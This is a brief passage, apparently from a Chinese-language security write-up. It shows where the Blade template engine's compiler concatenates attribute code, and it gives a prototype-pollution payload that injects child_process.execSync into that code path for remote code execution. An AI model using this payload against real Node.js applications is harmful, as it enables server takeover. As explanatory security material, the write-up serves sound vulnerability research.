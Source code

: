 ```plain
                JSON.stringify(runtime.escape(attrs[i].text)) ) + "'");
        else
            this._push("' " + i + "=" + bladeutil.quote(
                JSON.stringify(attrs[i].text) ) + "'");
    }
    //take care of code attributes here
    // 在这里注入代码！！！
    else
        varAttrs += "," + JSON.stringify(i) + ":{v:" + attrs[i].code +
            (attrs[i].escape ? ",e:1" : "") +
            (i == "class" && attrs[i].append ?
                ",a:" + JSON.stringify(attrs[i].append): "") + "}";
```

Payload如下，这样就能实现AST Injection+ RCE了！

```plain
Object.prototype.someprop = {
    'name': 'somename',
    'value': 'somevalue',
    'code' : "process.mainModule.require('child_process').execSync(`whoami`)"
};
```
